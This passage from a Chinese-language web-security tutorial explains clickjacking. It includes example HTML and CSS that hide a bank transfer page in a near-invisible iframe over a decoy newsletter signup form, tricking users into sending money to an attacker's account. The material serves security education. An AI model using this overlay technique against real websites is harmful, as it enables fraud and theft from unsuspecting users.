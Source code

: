 这个 URL 接受两个参数：收款人账户 ID 和转账金额。如果你访问带有这些参数的 URL，例如*https://www.example.com/transfer_money?recipient=RECIPIENT_ACCOUNT&amount=AMOUNT_TO_TRANSFER*，页面上的 HTML 表单将会预填充（图 8-3）。你只需要点击提交按钮，HTML 表单将发起转账请求。

![f08003](img/f08003.png)

图 8-3：预填充了 HTTP POST 参数的余额转账页面

现在想象一下，一个攻击者将这个敏感的银行页面嵌入到自己网站的 iframe 中，就像这样：

```
<html> <h3>Welcome to my site!</h3> <iframe src="https://www.example.com/transfer_money? recipient=attacker_account_12345&amount=5000"  width="500" height="500"> </iframe>
</html>
```

这个 iframe 嵌入了余额转账页面的 URL。它还传递了 URL 参数，以便预填充转账接收人和金额。攻击者将这个 iframe 隐藏在一个看似无害的网站上，然后诱使用户点击敏感页面上的一个按钮。为了实现这一点，他们通过将多个 HTML 元素重叠，以一种遮挡银行表单的方式进行布局。看一下这个 HTML 页面，举个例子：

```
<html> <style> #victim-site { width:500px; height:500px; 1 opacity:0.00001; 2 z-index:1; } #decoy { 3 position:absolute; width:500px; height:500px; 4 z-index:-1; } </style> <div **id="decoy**"> <h3>Welcome to my site!</h3> <h3>This is a cybersecurity newsletter that focuses on bug
bounty news and write-ups!  Please subscribe to my newsletter below to receive new
cybersecurity articles in your email inbox!</h3> <form action="/subscribe" method="post"> <label for="email">Email:</label> 5 <br> <input type="text" id="email" value="Please enter your email!"> 6 <br><br> <input type="submit" value="Submit"> </form> </div> <iframe **id="victim-site"**src="https://www.example.com/transfer_money?  recipient=attacker_account_12345&amount=5000"  width="500" height="500"> </iframe>
</html>
```

你可以看到，我们在 HTML 页面顶部添加了一个 `<style>` 标签。任何位于 `<style>` 标签之间的内容都是用于指定 HTML 元素样式的 CSS 代码，例如字体颜色、元素大小和透明度。我们可以通过为 HTML 元素分配 ID 并在样式表中引用这些 ID 来设置样式。

在这里，我们将诱饵元素的位置设置为 `absolute`，使得诱饵页面与包含受害者网站的 iframe 重叠。没有 `absolute` 位置指令时，HTML 会将这些元素显示在屏幕的不同位置。诱饵元素包括一个“订阅新闻通讯”按钮，我们精心调整 iframe 的位置，使得转账余额按钮直接覆盖在这个订阅按钮上，使用 HTML 的换行标签 `<br>` 创建新的行。然后，我们通过将 iframe 的透明度设置为非常低的值 1，使其变得不可见。最后，我们将 iframe 的 z-index 设置为比诱饵元素更高的值。*z-index* 设置了不同 HTML 元素的堆叠顺序。如果两个 HTML 元素重叠，z-index 值较大的元素会显示在上面。

通过为受害者网站的 iframe 和诱饵表单设置这些 CSS 属性，我们得到了一个看起来像是订阅新闻通讯的页面，但其中包含一个隐形的表单，将用户的资金转入攻击者的账户。让我们将 iframe 的透明度设置回 `opacity:1`，以查看页面的实际布局。你可以看到，转账余额按钮正好位于“订阅新闻通讯”按钮的正上方（图 8-4）。
